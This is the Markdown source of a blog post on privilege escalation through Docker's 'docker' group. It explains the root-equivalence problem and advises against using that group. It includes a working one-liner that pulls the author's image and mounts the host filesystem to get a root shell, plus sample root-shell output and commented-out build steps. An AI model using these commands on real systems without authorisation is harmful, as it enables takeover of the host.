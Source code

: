 ```yaml
---
layout: post
permalink: privilege-escalation-via-docker
title: Privilege Escalation via Docker
---
```


**TLDR;** Don't use the 'docker' group

[Docker](https://www.docker.com/), if you aren't already familiar with it, is a lightweight runtime and packaging tool. It's very similar to simply running a basic virtual machine, but with much less overhead. It's extremely nice for deploying applications as you can guarantee that they will run in identical environments, and the commit-like image system is handy as well.

If you happen to have gotten access to a user-account on a machine, and that user is a member of the 'docker' group, running the following command will give you a root shell:

<!-- Content Breaker -->

{% highlight console %}
> docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
{% endhighlight %}

<!-- Just in case Docker pulls the image:
**EDIT:** Docker appears to have removed by package from the Hub repository. The above command won't work, but you can achieve the same thing by building the Github repo:

{% highlight console %}
> git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
> cd rootplease/
> docker build -t rootplease .
> docker run -v /:/hostOS -i -t rootplease
{% endhighlight %}
-->

This looks like the following when you run it:

{% highlight console %}
johndoe@testmachine:~$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
[...]
You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
{% endhighlight %}

## The Problem

When you've spent any amount of time with Docker, a common complaint is that all of the commands require `sudo` prefixing them. _This is for a good reason_. Many of the design decisions that Docker made inherently give significant power to any user who has access to the daemon.

Anyways, because the additional five characters was too much to type, a 'docker' group was introduced to the package. The Docker daemon will allow access to either the root user or any user in the 'docker' group. This means giving someone 'docker' group access is equivalent to giving them _permanent, non-password-protected root access_.

## The Solution

This is a hard fix for Docker. Because of many of the design decisions they've opted for, it would require significant code rewriting in order to allow non-root users to access the daemon without it being a security risk. My person advice is just simply not use the 'docker' group, ever. At the very least, this should be made more clear on the [documentation](http://docs.docker.com/installation/ubuntulinux/#create-a-docker-group) for the 'docker' group. A newbie might not understand what 'root-equivalent' really means.

In Docker's defense, they are aware that this is a security problem, although they apparently have no intention of actually fixing it. About half way down in their [security document](http://docs.docker.com/articles/security/#docker-daemon-attack-surface), they do explain that the 'docker' group is root-equivalent and why that is dangerous.

## Exploit Details

The command you run to perform the privilege escalation fetches my Docker image from the [Docker Hub Registry](https://registry.hub.docker.com/) and runs it. The `-v` parameter that you pass to Docker specifies that you want to create a [volume](http://docs.docker.com/userguide/dockervolumes/) in the Docker instance. The `-i` and `-t` parameters put Docker into 'shell mode' rather than starting a daemon process.

The instance is set up to mount the root filesystem of the host machine to the instance's volume, so when the instance starts it immediately loads a `chroot` into that volume. This effectively gives you root on the machine.

There are _many, many_ other ways to achieve this, but this was one of the most straightforward. You can find the code in the [Github](https://github.com/chrisfosterelli/dockerrootplease) repo and the actual image on [Docker Hub](https://registry.hub.docker.com/u/chrisfosterelli/rootplease/).

Got any questions? [Tweet me.](https://twitter.com/chrisfosterelli)
